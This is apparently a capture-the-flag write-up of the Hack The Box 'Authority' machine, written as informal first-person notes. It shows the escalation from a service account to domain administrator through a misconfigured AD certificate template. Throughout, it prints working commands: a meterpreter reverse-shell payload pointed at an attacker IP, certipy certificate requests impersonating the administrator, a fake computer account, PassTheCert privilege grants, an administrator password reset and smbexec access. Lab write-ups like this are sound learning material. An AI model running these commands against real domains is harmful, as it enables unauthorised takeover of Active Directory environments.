

We got our an initial foothold on the DC using svc_ldap.
```sh
evil-winrm \
	-i authority.authority.htb \
	-u svc_ldap@authority.htb \
	-p 'lDaP_1n_th3_cle4r!'
```


```c
Get-ComputerInfo
```


Windows defender is not running! 
```
sc.exe query windefend
```


Let's use local_exploit_suggester  and  run winPEAS for now in the background. 

```
.\winPEASx64.exe >> enum.txt
```
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp \
	LHOST=10.10.14.93 \
	LPORT=53 \
	EXITFUNC=thread \
	-f exe \
	-o app.exe
```
We upload app.exe that we use to get a meterpreter session. Now we can use it to look for exploits. 


```
use post/multi/recon/local_exploit_suggester
```


We are not an administrator user so bypassing UAC will not help us.  

Also we can not even list local printers so we're not gonna be able to use a printer related exploit either. 


**MS16-032**

We've found precompiled binaries on the [SecWiki](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032)'s  repository  and more information about the race condition.   
However based on the info we found on [exploit-db](https://www.exploit-db.com/exploits/39719) it should not work on windows server 2019. 

**CVE-2022-21882**

I guess this one could potentially crash box.
Let's have a look at the output of  the winPEAS command then we come back to this if we get desperate hehe. 


---

**winPEAS**


I didn't find a whole lot of info using winpeas either.   
However I found  a LDAPs.pfx certificate lying around on c:/certs  


I don't know  what I can do with it. And I don't know how to crack it.  Cus I tried using
pfx2john + john and couldn't find the secret yet.


**Found a clue**



I have no idea about what I'm doing .. but I guess I have a new direction.

Whatever we do to privesc it might have something to do with the playbooks we've 
found on the the Development share. 

I heard something about _Certificate template injection?_   on THM but have no idea on how to exploit it. The only thing I know is that  it has something to do with ADCS.

Time to google!

https://tryhackme.com/r/room/adcertificatetemplates

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation

#### Enumerating templates


- Let's loot all templates we can find. 

```
certutil.exe /template /v > templates.txt
```


- in case you run into issues 
```
iconv -f utf-16le -t utf-8 templates.txt  > temps.txt
```

- Now, we can create a subset of templates we're allowed to enroll.

```sh
grep -E '(Allow Enroll\s+HTB\\Domain Users)' templates.txt
```

```sh
grep -E '(Allow Full Control\s+HTB\\Domain Users)' templates.txt
```


- Let's list their names, and look for templates that allow client authentication

```sh
tps=($(grep  -B80 -E '(Allow Enroll\s+HTB\\Domain Users)' templates.txt | \
	grep -E '(TemplatePropCommonName)' | \
	awk '{print $3}' ))

for tp in ${tps[@]}; do
	echo "Template: ${tp}"
	grep -m1 -A50 -E "TemplatePropCommonName\s=\s${tp}" templates.txt | 
		grep -A3 'TemplatePropEKUs'
	echo
done
```


- Okay,  between  ClientAuth and UserSignature  can we alter SAN ? 
```sh
tps=("ClientAuth" "UserSignature")

for tp in ${tps[@]}; do
	grep -m1 -A50 -E "TemplatePropCommonName\s=\s${tp}" templates.txt | 
		grep 'CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT\s--\s1' > /dev/null
		if [[ "$?" -eq 0 ]]; then 
			echo "${tp} is vulnerable"
		fi
	echo
done
```


Okay, Can we use that LDAPs certificate we've found ?

```sh
certipy-ad auth \
	-pfx 'LDAPs.pfx' \
	-username 'administrator' \
	-domain 'authority.authority.htb' \
	-dc-ip 10.129.12.250 \
	-debug
```

	Also, not really! damn son... okay what else can we do ? 

Let's try expending our initial search


```sh
grep -E '(Allow Enroll\s+HTB\\Domain Computers)' templates.txt
```

Maybe, if there's  templates for computers which are vulnerable right ? ? right ?

```sh
tps=($(grep  -B80 -E '(Allow Enroll\s+HTB\\Domain Computers)' templates.txt | \
	grep -E '(TemplatePropCommonName)' | \
	awk '{print $3}' ))

for tp in ${tps[@]}; do
	echo "Template: ${tp}"
	grep -m1 -A50 -E "TemplatePropCommonName\s=\s${tp}" templates.txt | 
		grep -A3 'TemplatePropEKUs'
	echo
done
```


```sh
tps=("Machine" "Workstation")

for tp in ${tps[@]}; do
	grep -m1 -A50 -E "TemplatePropCommonName\s=\s${tp}" templates.txt | 
		grep 'CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT\s--\s1' > /dev/null
		if [[ "$?" -eq 0 ]]; then 
			echo "${tp} is vulnerable"
		fi
	echo
done
```


Nope Nope Nope 

I was a little disappointed with myself.. And I needed a hint... and wait ??  it looks like I was in the right direction.  


I guess the problem is my enumeration strategy. Let's try something else.

https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/
https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6

I'm using a older version of bloodhound ... so I needed to google how to query the data afterwords cus I'm a noob
https://www.prosec-networks.com/en/blog/adcs-privescaas/
https://github.com/ly4k/Certipy/blob/main/customqueries.json

```sh
curl https://raw.githubusercontent.com/ly4k/Certipy/main/customqueries.json \
	-o ~/.config/bloodhound/customqueries.json
```


- now we can grab everything in a format that it will understand 
```sh
certipy-ad \
	find -vulnerable \
	-u svc_ldap@authority.htb \
	-p 'lDaP_1n_th3_cle4r!' \
	-dc-ip 10.129.12.250 \
	-old-bloodhound
```


 Noice, now we found 2 misconfigured templates 


How did I miss that? 


```
certutil.exe /v /template CorpVPN
```


```sh
tps=("CorpVPN")

for tp in ${tps[@]}; do
	grep -m1 -A50 -E "TemplatePropCommonName\s=\s${tp}" templates.txt | 
		grep 'CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT\s--\s1' > /dev/null
		if [[ "$?" -eq 0 ]]; then 
			echo "${tp} is vulnerable"
		fi
	echo
done
```


```sh
certipy-ad req \
	-username 'svc_ldap@authority.htb' \
	-password 'lDaP_1n_th3_cle4r!' \
	-target-ip 10.129.12.250 \
	-ca 'AUTHORITY-CA' \
	-template 'CorpVPN' \
	-upn 'administrator@authority.htb' \
	-debug
```


https://tryhackme.com/r/room/adcertificatetemplates


Okay, maybe we add a fake computer then ? 

```sh
impacket-addcomputer \
	-dc-ip '10.129.12.250' \
	-computer-name 'deadpool-pc' \
	-computer-pass 'SuperComplexPassword123!' \
	'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!'
```


Nice!! we got a certificate now we could use that to authenticate against kerberos and
grab the ntlm hash  of administrator hehe beautiful! 
```sh
certipy-ad req \
	-username 'deadpool-pc$@authority.htb' \
	-password 'SuperComplexPassword123!' \
	-target-ip 10.129.12.250 \
	-ca 'AUTHORITY-CA' \
	-template 'CorpVPN' \
	-upn 'administrator@authority.htb' \
	-debug
```


 - let's get system boiiss!
 
```sh
certipy-ad auth \
	-pfx 'administrator.pfx' \
	-username 'administrator' \
	-domain 'authority.htb' \
	-dc-ip 10.129.12.250 \
	-debug
```


https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d


Google my old friend ... here we go again  

https://github.com/AlmondOffSec/PassTheCert


```sh
certipy-ad cert -pfx administrator.pfx -nokey -out user.crt
```
```sh
certipy-ad cert -pfx administrator.pfx -nocert -out user.key
```


0kay , let's use our admin access via ldap to give dcsync rights to svc_ldap  

```
# download this script
https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/main/Python/passthecert.py
```

```sh
 python3 passthecert.py \
	 -action modify_user \
	 -crt user.crt \
	 -key user.key \
	 -domain authority.htb \
	 -dc-ip 10.129.12.250 \
	 -target svc_ldap \
	 -elevate
```


I know this is pretty much telling I'm a wanna be hacker... but
I couldn't use secrets dump afterwards and reg.exe save  did not really work...

so I did

I've changed the administrator password... sorry mon .. sorry dad I'm a failure. 

```sh
 python3 passthecert.py \
	 -action modify_user \
	 -crt user.crt \
	 -key user.key \
	 -domain authority.htb \
	 -dc-ip 10.129.12.250 \
	 -target administrator \
	 -new-pass
```

```
DxV5FHG8boKotJjKpqY69hn8OmJkWs5g
```


And that's how we got system ^^

```sh
impacket-smbexec  \
  'authority.htb/Administrator:DxV5FHG8boKotJjKpqY69hn8OmJkWs5g@10.129.12.250'
```

